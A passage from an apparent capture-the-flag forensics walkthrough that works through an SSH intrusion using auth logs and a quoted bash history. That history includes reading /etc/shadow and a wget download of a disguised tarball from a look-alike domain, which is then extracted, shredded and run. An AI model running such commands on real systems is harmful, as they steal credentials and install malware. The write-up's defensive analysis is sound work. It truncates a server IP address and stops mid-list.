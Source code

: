 From the ssh log this line shows that

- Connection from 100.87.190.253 port 63371  
→ This is the client’s IP and ephemeral port (the person initiating the connection).


- on 100.107.36.130 port 2221  
→ This is the server’s IP and port (where the SSH server is running and accepting connections).
Therefore the ssh server the attacker is connected to is 100.107.36 on port 2221.

Answer: `100.107.36:2221`

## What time is the first successful Login?

From the ssh log look for the earliest line that shows accepted password since this shows a succesful login.

```
[2024-02-13 11:29:50] Accepted password for root from 100.81.51.199 port 63172 ssh2
```

So from this line at `2024–02–13 11:29:50` a successful root user logged in from IP `100.81.51.199`.

Answer: `2024–02–13 11:29:50`

## What is the time of the unusual Login?

So to know the unusual login time i looked for suspicious activity done by the user at the bash history.

From the bash_history log i found this suspicious activity.

```
[2024-02-19 04:00:18] whoami
[2024-02-19 04:00:20] uname -a
[2024-02-19 04:00:40] cat /etc/passwd
[2024-02-19 04:01:01] cat /etc/shadow
[2024-02-19 04:01:15] ps faux
[2024-02-19 04:02:27] wget https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O /tmp/latest_iproute.tar.gz
[2024-02-19 04:10:02] tar xvf latest.tar.gz
[2024-02-19 04:12:02] shred -zu latest.tar.gz
[2024-02-19 04:14:02] ./setup

```

🔍 These linux comand I considered suspicious due to :

- [2024–02–19 04:00:18] whoami   
The attacker checks what user they are. A common first step after gaining unauthorized access.
- [2024–02–19 04:00:20] uname -a  
The attacker gathers system information. Again, common post-compromise recon behavior.
- [2024–02–19 04:00:40] cat /etc/passwd  
Dumping the list of system users.
- [2024–02–19 04:01:01] cat /etc/shadow  
Accessing the shadow file (which stores password hashes) is extremely suspicious and indicates root-level access.
- [2024–02–19 04:01:15] ps faux  
Listing all running processes — attackers often do this to understand system state or find things to exploit.
- [2024–02–19 04:02:27] wget https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O /tmp/latest_iproute.tar.gz  
Downloading a suspicious tarball from a non-official domain (gnu-packages.com is not a legit GNU site). Likely malware or a backdoor.
- [2024–02–19 04:10:02] tar xvf latest.tar.gz  
Extracts the malicious archive.
- [2024–02–19 04:12:02] shred -zu latest.tar.gz  